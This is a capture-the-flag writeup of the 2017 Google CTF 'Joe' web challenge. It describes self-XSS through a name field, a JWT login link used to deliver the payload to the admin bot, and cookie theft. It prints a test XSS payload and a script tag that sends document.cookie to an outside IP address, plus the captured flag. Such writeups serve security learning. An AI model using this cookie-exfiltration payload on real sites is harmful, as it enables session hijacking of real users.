 ```yaml
---
published: true
---
```

## Joe Challenge writeup: Google ctf

Joe was the first of five puzzles in the Web category, and the only one classified as Easy. In essence, the challenge entailed the following:

_If you can find a vulnerability that makes it possible to steal the cookies of the administrator, we will reward you with a valuable flag:_

[Challenge url](https://joe.web.ctfcompetition.com)

![Joe_screenshot.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/Joe_screenshot.png)

Initial reconnaissance led me to the following features.


- Name-changing
- Session and Login handling
- Submitting bug report to admin.

Another interesting point was that if we try to use the link provided for admin login then we getting the following result.

![joe_admin_login.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_admin_login.png)



As we can see in the above responce that the admin have a cookie named as flag and it's required for logging in as an admin. Now we just need to figure out a way to steal the admin cookie.

Cookie theft is often facilitated through XSS (cross-site scripting), so I asked Joe to let me rename you to an injection payload:

**<svg/onload=alert(document.domain)>**


Refreshing the page led to successful self XSS
![joe_test.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_test.png)


But this payload is executing in self context a.k.a. "selfxss".Now I proceeded to focus on leveraging this against the "administrator" user. Reporting a bug to admin seems an intersting attack surface for this purpose. we can use this feature to report a bug by supplying a valid report URL (prefixed with HTTP/S) and CAPTCHA response.


But after trying a few times I am still not able to exploit this feature. So i decided to take a look on the login feature. where i found [JSON Web Token](https://jwt.io/) parameter in a login request:

![Screenshot from 2017-07-03 15-57-08.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/Screenshot%20from%202017-07-03%2015-57-08.png)



**_JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object._**



I found that the above URL could be used to log into my account with a valid JWT, and proceeded to change Joe's name to the following payload

```<script>img = new Image(); img.src="https://139.59.74.204/cookie?q="+document.cookie;alert("done");//</script>```

![selfxss.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/selfxss.png)

As you can see in above image that the payload executed successfully. Now all i need is to issue a bug report for admin and sent my tokenised URL to Joe, but this url was rejected due to excess length.


![joe_url_too_big.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_url_too_big.png)

So i used google's link shortner service and sent the new url as a bug report. Which is get accepted successfully.

![Screenshot from 2017-07-03 15-59-36.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/Screenshot%20from%202017-07-03%2015-59-36.png)

Now all i needed is to check the access log of apache that is running on my VPS.
![joe_flag.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_flag.png)

And this way i got the access of admin's flag cookie.

		flag=CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!};
